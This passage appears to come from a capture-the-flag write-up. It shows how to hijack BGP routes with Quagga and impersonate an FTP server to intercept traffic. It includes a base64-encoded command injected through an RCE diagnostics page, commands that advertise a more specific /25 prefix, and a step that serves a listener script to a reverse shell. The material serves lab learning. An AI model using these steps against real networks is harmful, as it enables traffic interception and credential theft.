 Okay, so we know we need to masquerade as the FTP server, there's a setup step to do first. Let's create a virtual interface and assign it that IP. Remember earlier when I said you needed to match up network cards with connected networks? eth2 is the device we need to add a virtual interface to. Below is the command to do that. Don't forget the netmask, otherwise your reverse shell dies, and you have to use the code further below back on the RCE step with the diagnostics page to switch it off.
```
ifconfig eth2:0 10.120.15.10 netmask 255.255.255.0
```
 
If something goes wrong run this in the RCE, it will undo the broken interface.
```
kali :: ~/CTFs/carrier # echo 'quagga; ifconfig eth2:0 down' | base64                            
cXVhZ2dhOyBpZmNvbmZpZyBldGgyOjAgZG93bgo=
```
  
Now we need to spoof our route. Have a read of this first: https://www.noction.com/blog/bgp-hijacking

Okay, so we want to basically tell the other connected Autonomous Systems (or networks with AS numbers) that we have the 10.120.15.0/24 network so that the traffic will come to us for the stealz. Easy done. Have a gander at the below commands. The key line is the 'network 10.120.15.0/25' line. Wait? But the network is a /24?? Whyyy you do /25? Have a read of the above site... it's informative. Smaller, more specific network prefixes trump broader ones. By advertising a smaller chunk we get the traffic. Next we masquerade as the FTP server.
```
root@r1:~# vtysh
vtysh

Hello, this is Quagga (version 0.99.24.1).
Copyright 1996-2005 Kunihiro Ishiguro, et al.

r1# config terminal
config terminal
r1(config)# router bgp 100
router bgp 100
r1(config-router)# network 10.120.15.0/25
network 10.120.15.0/25
r1(config-router)# end
end
r1# exit
exit
root@r1:~# 
```
  
Now that we have hijacked the routes its time to impersonate the ftp server. For this we are going to need another reverse shell, so follow the initial steps using a different port and come back down here.

Running which python and which python3 shows that we have access to python3, a quick google or two later and we have found a [python ftp listener script](https://raw.githubusercontent.com/Aelof3/Repo-Rope/master/ftpds.py) that suits our purposes.

Downloading the script to our attacking machine we can host the file with python -m SimpleHTTPServer 80

